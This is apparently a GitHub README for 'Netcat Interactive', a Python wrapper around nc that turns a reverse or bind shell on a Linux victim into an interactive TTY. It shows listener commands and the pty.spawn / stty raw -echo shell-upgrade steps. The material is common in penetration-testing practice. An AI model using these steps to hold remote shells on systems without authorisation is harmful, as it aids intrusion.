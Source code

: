 # Netcat Interactive
Netcat Interactive is a python wrapper around Netcat (nc), to change a
bind or reverse shell to a Linux machine, into a **interactive** 
shell.

## How to Use
Use this on the attacker machine. Make sure `nc` is available in your
`PATH`, then use `nc-ai` just as you would use `nc`. For example on
the attacker machine execute the following to get a reverse shell:
```
nc-ai -nvlp 4444
...
nc-ai -nv 127.0.0.1 4444
```

When you have a connection and a plain shell, press `ESC` to upgrade the shell to a
interactive shell.

## Limitations
Only works for Linux...  
Only tested on kali...  
Only tried with bash...  

Netcat binary should be in PATH and be called `nc`.

Probably more...

## Issues
When waiting for a victim to connect to us, `CTRL-C` does not stop the script.

## References
The solution is based on the following blog:
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

In short:
```bash
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

The stdout/stderr/stdin redirection is based on the following:
https://stackoverflow.com/questions/31926470/run-command-and-get-its-stdout-stderr-separately-in-near-real-time-like-in-a-te/31953436#31953436
